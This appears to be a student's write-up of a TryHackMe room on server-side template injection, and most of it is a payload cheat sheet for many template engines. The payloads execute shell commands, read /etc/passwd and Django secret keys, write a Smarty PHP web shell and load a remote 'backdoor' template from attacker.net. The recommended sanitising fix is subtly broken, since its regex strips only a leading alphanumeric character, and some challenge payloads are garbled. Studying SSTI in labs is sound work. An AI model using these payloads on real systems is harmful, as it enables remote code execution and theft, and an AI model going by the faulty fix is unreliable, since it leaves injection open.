


# Report on THM SSTI room 



<h2>What is SSTI</h2>
Template engines are designed to generate web pages by combining fixed templates with volatile data. 
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data.
This allows attackers to inject arbitrary template directives in order to manipulate the template engine, 
often enabling them to take complete control of the server. 
As the name suggests, server-side template injection payloads are delivered and evaluated server-side,
potentially making them much more dangerous than a typical client-side template injection. 

SSTI basically works because Template Engines can evaluate operations using certain special operators like ```${{<%[%'"}}%\```. 


So if user input is directly passed without sanitization and not in the proper syntax such that only data gets passed, then SSTI vulnerabilities arise.
Eg:

```
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()

```


Here input is neither sanitized nor passed only as data .

The correct way should be something like:
            
```
import re

# Remove everything that isn't alphanumeric
user = re.sub("^[A-Za-z0-9]", "", user)
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

<h2>Exploitation:</h2>

To exploit a SSTI vulnerability we first need to identify the template engine. 
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters.
 As a result, it can be relatively simple to create probing payloads to test which template engine is being use
The following decision tree can help with this.



To follow the decision tree, start at the very left and include the variable in your request. Follow the arrow depending on the output:

    Green arrow - The expression evaluated (i.e 49)
    Red arrow - The expression is shown in the output (i.e ${7*7})

But the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. 
Therefore, it is important not to jump to conclusions based on a single successful response. 

Got this very useful repo while doing this:

https://github.com/swisskyrepo/PayloadsAllTheThings

An excerpt for some common template engines:

```
Cheatsheet

--------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):

{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
 = Error
{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{{c,c,c}}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

Some payloads used earlier in some challenges:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory

{{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

 found 

 - when {{ does not work use 
```

Further Refrences:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings
